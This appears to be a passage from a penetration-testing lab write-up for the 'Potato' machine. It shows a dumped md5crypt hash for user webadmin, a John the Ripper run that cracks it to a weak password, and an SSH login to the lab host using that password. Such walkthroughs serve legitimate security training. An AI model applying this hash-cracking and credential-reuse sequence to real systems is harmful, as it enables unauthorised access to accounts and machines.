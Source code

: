 Cool so that worked. Now to crack the hash for webadmin

webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash

dump hash into a file and run john to attempt to crack it

 →  vi hash                                                                                               08:56:21

 kali  🏡  OSCP  Potato                                                                                        

 →  john hash                                                                                             08:56:28

Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"

Use the "--format=md5crypt-long" option to force loading these as that type instead

Using default input encoding: UTF-8

Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])

Will run 8 OpenMP threads

Proceeding with single, rules:Single

Press 'q' or Ctrl-C to abort, almost any other key for status

Almost done: Processing the remaining buffered candidate passwords, if any.

Proceeding with wordlist:/usr/share/john/password.lst

dragon           (webadmin)     

1g 0:00:00:00 DONE 2/3 (2023-06-04 08:56) 1.388g/s 2416p/s 2416c/s 2416C/s 123456..bigben

Use the "--show" option to display all of the cracked passwords reliably

Session completed. 

  

Great now to login via ssh

ssh webadmin@192.168.236.101                                                                           08:57:30

The authenticity of host '192.168.236.101 (192.168.236.101)' can't be established.

ED25519 key fingerprint is SHA256:9DQds4tRzLVKtayQC3VgIo53wDRYtKzwBRgF14XKjCg.

This key is not known by any other names.

Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '192.168.236.101' (ED25519) to the list of known hosts.

webadmin@192.168.236.101's password: 

Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

  

 * Documentation:  https://help.ubuntu.com

 * Management:     https://landscape.canonical.com
